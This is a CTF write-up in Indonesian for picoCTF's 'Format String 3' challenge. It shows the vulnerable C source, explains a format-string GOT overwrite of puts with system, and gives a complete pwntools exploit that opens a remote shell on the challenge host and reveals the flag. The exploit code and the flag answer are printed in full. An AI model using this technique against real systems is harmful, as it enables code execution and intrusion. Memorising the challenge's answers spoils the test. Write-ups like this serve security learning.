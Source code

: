 ### Format String 3 Writeup

Diberikan biner, kode sumber, libc, dan interpreter.

Kode sumber adalah sebagai berikut:

```c
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
    puts("Howdy gamers!");
    printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
    char *all_strings[MAX_STRINGS] = {NULL};
    char buf[1024] = {'\0'};

    setup();
    hello();    

    fgets(buf, 1024, stdin);    
    printf(buf);

    puts(normal_string);

    return 0;
}
```

Karena `printf(buf)` digunakan, ini bisa dieksploitasi menggunakan Format String Bug (FSB).

Selain itu, karena `puts(normal_string)` (dengan `normal_string` berisi "/bin/sh") dieksekusi, jika kita mengganti alamat `puts` di GOT dengan alamat fungsi `system`, maka kita bisa mendapatkan shell dan mengambil flag.

Untuk itu, kita membutuhkan 3 informasi:
1. Offset saat `printf` dieksekusi
2. Alamat `puts` di GOT
3. Alamat fungsi `system` di libc

Offset saat `printf` dieksekusi dapat ditemukan dengan memasukkan `%n$p` ke dalam program, yang menunjukkan bahwa offsetnya adalah 38:

```
$ nc rhea.picoctf.net 49961
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7f58edbd73f0
%38$p
0xa7024383325
/bin/sh
```

Alamat `puts` di GOT dapat ditemukan menggunakan gdb, yang menunjukkan 0x401080:

```
(gdb) p puts
$1 = {<text variable, no debug info>} 0x401080 <puts@plt>
```

Alamat fungsi `system` di libc bisa berubah setiap kali, jadi kita harus menghitung perbedaannya dengan `setvbuf` di libc, lalu menambahkannya ke alamat `setvbuf` yang diberikan oleh instance.

Ini bisa diimplementasikan menggunakan pwntools sebagai berikut:

```python
import sys
from pwn import *
from pwnlib.elf.elf import *
from pwnlib.fmtstr import *

context.arch='amd64'

fs3 = ELF('./format-string-3')
got_puts = fs3.got['puts']
print(f'got_puts: {hex(got_puts)}')
libc = ELF('./libc.so.6')
libc_system = libc.symbols['system']
print(f'libc_system: {hex(libc_system)}')
libc_setvbuf = libc.symbols['setvbuf']
print(f'libc_setvbuf: {hex(libc_setvbuf)}')

host = sys.argv[1]
port = int(sys.argv[2])
r = remote(host, port)
m = r.recvregex(b'libc: 0x([0-9a-f]+)\n', capture=True)
matched_string = m.group(0).decode()
log.info(f'matched_string: {matched_string}')
loaded_libc_setvbuf = int(m.group(1).decode(), 16)
loaded_libc_system = loaded_libc_setvbuf + (libc_system - libc_setvbuf)
log.info(f'loaded_libc_system: {hex(loaded_libc_system)}')
loaded_libc_system_lower = loaded_libc_system & 0xffffffff
format_string = fmtstr_payload(38, {got_puts:loaded_libc_system}, numbwritten=0, write_size='byte')
r.sendline(format_string)
r.interactive()
```

Saat dijalankan, script ini mengirimkan payload ke instance dan mengaktifkan shell:

```
$ python flag.py rhea.picoctf.net 49961
...
$ ls
Makefile
artifacts.tar.gz
flag.txt
format-string-3
format-string-3.c
ld-linux-x86-64.so.2
libc.so.6
metadata.json
profile
$ cat flag.txt
picoCTF{G07_G07?_cf6cb591}
```